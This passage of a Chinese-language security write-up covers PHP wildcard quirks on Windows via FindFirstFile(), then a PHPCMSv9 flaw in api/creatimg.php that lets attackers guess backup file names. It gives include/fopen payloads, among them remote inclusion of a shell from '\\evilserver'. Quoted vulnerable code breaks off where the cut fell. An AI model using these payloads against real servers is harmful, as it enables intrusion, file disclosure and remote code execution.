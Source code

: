 __利用__

1.当调用FindFirstFile()函数时，”<”被替换成`*`,这意味该规则可以使”<”替换多个任意字符，但是测试中发现并不是所有情况都如我们所愿。所以，为了确保能够使”<”被替换成`*`,应当采用”<<”。


	EXAMPLE:include(‘shell<’);  或者include(‘shell<<’);    //当文件夹中超过一个以shell打头的文件时，该执行取按字母表排序后的第一个文件。

2.当调用FindFirstFile()函数时，”>”被替换成”?”,这意味这”>”可以替换单个任意字符


	EXAMPLE：include(‘shell.p>p’);    //当文件中超过一个以shell.p?p 通配时，该执行取按字母表排序后的第一个文件。

3.当调用FindFirstFile()函数时，”””(双引号)被替换成”.”


	EXAMPLE:include(‘shell”php’);    //===>include(‘shell.php’);

4.如果文件名第一个字符是”.”的话，读取时可以忽略之


	EXAMPLE：fopen(‘.htacess’);  //==>fopen(‘htacess’);   //加上第一点中的利用 ==>fopen(‘h<<’);

5.文件名末尾可以加上一系列的/或者\的合集，你也可以在/或者\中间加上.字符，只要确保最后一位为”.”


	EXAMPLE：fopen(“config.ini\\.// \/\/\/.”);==>  fopen(‘config.ini\./.\.’); ==>fopen(‘config.ini/////.’)==>fopen(‘config.ini…..’)

6.该函数也可以调用以”\\”打头的网络共享文件，当然这会耗费不短的时间。补充一点，如果共享名不存在时，该文件操作将会额外耗费4秒钟的时间，并可能触发时间响应机制以及max_execution_time抛错。所幸的是，该利用可以用来绕过`allow_url_fopen=Off `并最终导致一个RFI（远程文件包含）


	EXAMPLE：include (‘\\evilserver\shell.php’);

7.用以下方法还可以切换文件的盘名


	include(‘\\.\C:\my\file.php\..\..\..\D:\anotherfile.php’);

8.选择磁盘命名语法可以用来绕过斜线字符过滤


	file_get_contents(‘C:boot.ini’); //==>  file_get_contents (‘C:/boot.ini’);


#### [PHPCMSv9逻辑漏洞导致备份文件名可猜测](https://mp.weixin.qq.com/s?__biz=MzIxNjkwODg4OQ==&mid=2247483837&idx=1&sn=6f448a26d079bfa379c627e32f4fc321&chksm=9780948ba0f71d9d78f86edf78e9fef4b8a11f613382d819ff3b913b96fb94527165c1858045&mpshare=1&scene=23&srcid=0228HeL0BaWSz3dPxqc6pIDJ#rd)

`api\creatimg.php`文件里面，`$fontfile`变量可控，且没有对一些特殊字符过滤，比如`\.`等，便进入`file_exists`函数判断。当文件存在和不存在时所返回的页面是不一样的。利用这个点把随机字母名称的备份文件推算出来。

然后利用`windows`通配符在`php`中的`bug`，测试文件是否存在。

	<?php
	defined('IN_PHPCMS') or exit('No permission resources.'); 
	$txt = trim($_GET['txt']);
	/*extension_loaded — 检查一个扩展是否已经加载*/
	if(extension_loaded('gd') && $txt ) {  
		header ("Content-type: image/png");
		$txt = urldecode(sys_auth($txt, 'DECODE'));
		$fontsize = isset($_GET['fontsize']) ? intval($_GET['fontsize']) : 16;
		$fontpath = PC_PATH.'libs'.DIRECTORY_SEPARATOR.'data'.DIRECTORY_SEPARATOR.'font'.DIRECTORY_SEPARATOR;
		$fontfile = isset($_GET['font']) && !empty($_GET['font']) ? $fontpath.trim($_GET['font']) : $fontpath.'georgia.ttf';	
		$fontcolor = isset($_GET['fontcolor']) && !empty($_GET['fontcolor']) ? trim($_GET['fontcolor']) : 'FF0000';
		$fontcolor_r = hexdec(substr($fontcolor,0,2));
		$fontcolor_g = hexdec(substr($fontcolor,2,2));
		$fontcolor_b = hexdec(substr($fontcolor,4,2));
		if(file_exists($fontfile)){
		